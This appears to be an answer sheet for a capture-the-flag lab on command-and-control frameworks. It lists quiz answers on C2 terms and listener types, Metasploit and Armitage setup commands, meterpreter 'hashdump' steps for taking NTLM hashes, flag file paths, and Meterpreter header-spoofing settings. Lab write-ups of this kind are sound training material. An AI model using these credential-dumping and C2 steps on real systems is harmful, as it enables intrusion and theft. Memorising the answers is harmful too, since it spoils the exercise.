 **Task 2**

**What is the term for the software on a compromised computer that communicates back to a command and control (C2) server?**

```Agent```


**What is the beaconing option that introduces a random delay value to the sleep timer?**

```Jitter```


**What is the term for the first portion of a Staged payload?**

```Dropper```

**What is the name of the communication method that can potentially allow access to a restricted network segment that communicates via TCP ports 139 and 445?**

```SMB Beacon```

**Task 5**

**Which listener should you choose if you have a device that cannot easily access the internet?**
```DNS```

**Which listener should you choose if you're accessing a restricted network segment?**

```SMB```


**Which listener should you choose if you are dealing with a Firewall that does protocol inspection?**

```HTTPS```

**Task 6**

**What is the Administrator's NTLM hash?**
```
msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump

```
**What flag can be found after gaining Administrative access to the PC?**
```
Follow the steps on Task 4

git clone https://gitlab.com/kalilinux/packages/armitage.git && cd armitage
bash package
systemctl start postgresql && systemctl status postgresql.sh
export MSF_DATABASE_CONFIG=/root/.msf4/database.yml
cd /opt/armitage/release/unix && ./teamserver YourIP P@ssw0rd123
cd /opt/armitage/release/unix && ./armitage (in other terminal tab)

![Insert the correct info according to your Host IP Address](image.png)


![alt text](image-1.png)

Then, follow the steps on Task 4 adapting to your needs

![alt text](image-2.png)

![Your Machine IP Address](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)

After you gain access, the flag is at C:\Users\Administrator\Desktop\root.txt
```

**What flag can be found after gaining access to Ted's user account?**

```After you gain access, the flag is at C:\Users\Ted\Desktop\user.txt```

**What is Ted's NTLM Hash?**

```

msfconsole -q
set LHOST <network-interface>
set RHOST <victim_ip>
run


meterpreter> hashdump
```

**Task 7**

**What setting name that allows you to modify the User Agent field in a Meterpreter payload?**
```HttpUserAgent```

**What setting name that allows you to modify the Host header in a Meterpreter payload?**

```HttpHostHeader```



